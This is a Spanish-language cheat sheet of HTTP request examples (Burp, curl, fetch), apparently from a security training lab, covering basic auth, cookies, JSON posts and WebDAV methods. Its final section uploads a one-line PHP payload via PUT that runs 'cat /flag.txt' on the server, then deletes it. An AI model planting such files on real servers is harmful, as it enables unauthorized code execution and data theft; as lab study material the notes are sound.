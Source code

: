 # Web Requests

## Solicitud GET con autorización básica
  
### Burp
  
```http
GET / HTTP/1.1
Host: 178.62.99.223:31738
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
```

### Curl

- Forma 1

```
curl http://178.62.99.223:31738/ -H 'Authorization: Basic YWRtaW46cGFzc3dvcmQ=' -L
```

- Forma 2
  
```bash
curl -u admin:password http://178.62.99.223:31738/  -L
```

```
curl -u admin:password -L http://178.62.99.223:31738/flag.php\?num1=1336\&num2=1
```

. Otro ejmplo
```
curl -i -X POST -d "username=admin&password=admin" http://83.136.251.226:40683/ 
curl -i -X POST -b "PHPSESSID=f5bp876aeecdt75d0t16k22fvl" http://83.136.251.226:40683
curl -i -X POST -b "PHPSESSID=f5bp876aeecdt75d0t16k22fvl"  -d '{"search":"flag"}' -H 'Content-Type: application/json' http://83.136.251.226:40683/search.php

await fetch("http://83.136.251.226:40683/search.php", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Curl",
        "Accept": "*/*",
        "Accept-Language": "es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3",
        "Content-Type": "application/json",
        "Priority": "u=1"
    },
    "referrer": "http://83.136.251.226:40683/",
    "body": "{\"search\":\"flag\"}",
    "method": "POST",
    "mode": "cors"
});

```


## Solicitud POST

- Curl POST con cookie
  
```
curl -d 'username=admin&password=password' http://157.245.35.236:32721/login.php  -L --cookie-jar /dev/nul
```

- Curl con cookie forma 2

```bash
curl -d 'username=admin&password=password' -L --cookie-jar cookies.txt
curl --cookie cookies.txt http://inlanefreight.com/admin/dashboard.php -v
```



- Curl POST Json

```
curl -H 'Content-Type: application/json' -d '{ "username" : "admin", "password" : "password" }'
```

```bash
curl -H 'Content-Type: application/json' -d '{ "username" : "admin", "password" : "password" }' --cookie-jar /dev/null -L  http://inlanefreight.com/login.php
```

### OPTIONS, PUT, DELETE

- curl OPTIONS
  
```bash
curl -X OPTIONS http://157.245.35.236:30885 -I
HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Wed, 12 Jan 2022 04:06:21 GMT
Content-Length: 0
Connection: keep-alive
DAV: 1
Allow: GET,HEAD,PUT,DELETE,MKCOL,COPY,MOVE,PROPFIND,OPTIONS
```

- subir archivo
  
```bash
echo '<?=`cat /flag.txt`;?>' > flag.php
curl -X PUT http://157.245.35.236:30885/flag.php -d @flag.php -vv
curl http://157.245.35.236:30885/flag.php -vv 
```

- borrar archivo

```bash
curl -X DELETE http://157.245.35.236:30885/flag.php  -vv 
```



